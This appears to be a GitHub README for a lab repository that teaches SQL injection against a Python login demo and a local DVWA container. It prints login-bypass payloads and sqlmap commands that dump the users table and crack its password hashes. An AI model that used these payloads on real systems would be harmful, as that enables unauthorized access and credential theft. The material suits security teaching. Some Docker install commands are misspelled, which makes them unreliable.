








```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction

<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>

## Scenarios:

<h4>

1. Basic SQLi Attack on a Python Login System

* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>

2. Safe Environment Web Application Demonstration (Simulated)

* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.


* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```
<p style="text-align:center;"></p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker

```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa

```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<p style="text-align:center;">

</p>

5. go to SQL injection 
<p style="text-align:center;">

</p>


# SQL Injection Attack


1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">

</p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">

</p>

# Using SQLmap

- sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<p style="text-align:center;">

</p>

You can use SQLmap to perform various tasks, such as: 

* Viewing all tables on the webpage:


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;"></p>

* Viewing table content and cracking password hashes:
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 
<p style="text-align:center;">
</p>


